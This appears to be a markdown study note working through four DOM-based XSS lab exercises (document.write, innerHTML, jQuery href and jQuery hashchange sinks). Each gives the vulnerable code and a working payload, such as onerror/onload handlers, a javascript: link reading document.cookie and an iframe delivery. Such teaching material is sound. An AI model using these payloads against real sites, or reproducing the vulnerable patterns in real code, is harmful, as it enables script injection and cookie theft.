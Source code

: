 # Function that uses "document.write()" and concatenation of the input string

### Scenario

```javascript
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```
With the document.write function it writes the "img" tag with the specified "src" parameter. In it there is a concatenation with the parameter that the user give to the page.

The parameter is taken from window.location.search and the parameter name is "search". If the is not empty then the JS function "trackSearch" is called.

N.B.: the window.location.search take anything which comes after the question mark in the URL.

In the DOM the passed element is displayed in the "img" tag created by the JS function:
```html
<img src="/resources/images/tracker.gif?searchTerms=test">
```

### Exploitation

We can pass this string as input:

```
test" onload=alert()
```

Here, what happens is the following:
- The img tag is created as shown before;
- Now, due to the presence of " we are able to break the string automatically created by the JS function;
- The image is actually loaded, but given the presence of the onload action we inserted, the action specified in it will be perfomed after the image loading;
- We inserted the alert() function in the onload action, so we expect to see an alert box on the web page;
- We cannot close the " because there is that already inserted by the JS function.

The HTML resulting from this input is the following:
```html
<img src="/resources/images/tracker.gif?searchTerms=test" onload=alert()">
```

# INNER.html sink using source "location.search"

### Scenario

```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

This JS code snippet takes the input string with "window.location.search" and takes the parameter called "search".

This string is passed to the JS function and used with the innerHTML.

DOM in which the input is diplayed:

```html
<span id="searchMessage">uniquetest</span>
```

In innerHTML if we pass a <script> tag it won't be executed. This is a security feature. So we need to pass something else.

### Exploit
We can use:
```
<img src='0' onerror=alert()>
```
The src provided will cause an error and onerror we load the alert() function.
As we seen before the "script" tag is not executed but not the "img" tag.

The DOM modified is the following:
```html
<span id="searchMessage">
    <img src="0" onerror="alert()">
</span>
```

# DOM XSS in JQuery anchor href attribute sink using location.search source

### Scenario
JQuery is a JS framework with a little bit different syntax from vanilla JS.

```html
<a id="backLink" href="/">Back</a>
```

This back link on the page, redirect the users to the previous page.

The href is populated by a JQuery script.

```javascript
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```

- $('#backLink') this select the element with the id="backLink";
- attr("href") go inside the attribute href in the selected ID;
- Assign to this attribute the value retrieved from the URL parameter called "returnPath".

### Exploit
If we have an anchor tag (<a>) and inside the href parameter of it we have "javascript:SOMEJS", SOMEJS will be executed directly.


We can assign to the returnPath URL parameter something like this:
```
javascript:alert(document.cookie)
```

Resulting DOM:
```html
<a id="backLink" href="javascript:alert(document.cookie)">Back</a>
```

When we will click on the link on the web page, the JS will be executed. We will get an alert with the cookie shown inside.

# JQuery selector sink using hashchange

### Scenario

In the page source, we can see the following JS script:
```javascript
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

What's an **hashchange event**?
You can put an hashtag (#) at the end of the url followed by a number or a word.
It's often used as bookmarking functionality.

The JS function showed creates a variable called "post".
It assign to the variable the content of the h2 tag which contains the value of the hashchange we pass to the URL parameter contained inside the section "blog-list".

Clearly, the "contains" method search for a value that we can manipulate.

N.B.: **In some version of JQuery the function "contains" may behave as unexpectedly**. So, if we try to give to it the argument ```<h1> somethingUNIQUE </h1>``` and print the variabile "post" we may notice that post variable contains our h1 tag.
**In other words, the contains method created the object passed as argument to it.**
This DOM element isn't inserted in the page, but it's a **detached DOM element**.

We can give it a parent node, so, in other words, we can attach in to the DOM of the web page:

```javascript
var mynode = document.getElementById("something");
mynode.appendChild(post)
```

### Exploit

We can exploit the vulnerability above, by using a tag like "<img>" and forcing it to the error and hen using a onerror functionality.

```javascript
let myimg = document.createElement('img')
myimg.src = 0 //nosense value of the src
```

We can pass it as payload:

```html
<img src=0 onerror='alert()'>
```

In this case we can avoid to attach this img tag to the web page DOM because we can notice from the network connection panel of our browser that it calls immediatly the "src" location although this "img" tag isn't attached to the DOM of the web page.

In some case, we can deliver a simiilar payload using **"iframe"**:
```html
<iframe src="https://theVulnerablePageURL/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

This code load the vulnerable page inside a box (the iframe) and then append to the URL in the src field the hashchange value which exploits the vulnerability.
